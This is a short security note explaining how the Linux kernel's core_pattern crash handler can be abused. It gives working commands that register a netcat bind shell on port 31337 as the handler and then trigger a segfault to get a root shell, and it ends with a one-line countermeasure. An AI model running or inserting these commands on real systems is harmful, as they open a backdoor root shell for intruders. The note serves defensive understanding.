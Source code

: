 # Core Pattern

You can give the kernel a crash handler which will be executed if a segfault happens. Ubuntu uses that to launch [apport](https://wiki.ubuntu.com/Apport) and you can hijack this feature to have your rootshell executed:

```
  echo '|/bin/nc.traditional -l -p 31337 -e /bin/sh' | sudo tee /proc/sys/kernel/core_pattern
   gedit & kill -SEGV %%
```

You can now connect to localhost 31337 to have a rootshell. Of course you could launch connect back shells or any other malicious program.

To counter this threat, you might want to read this core\_pattern file or in doubt erase the signal handler:

```
 echo '' | sudo tee /proc/sys/kernel/core_pattern
```

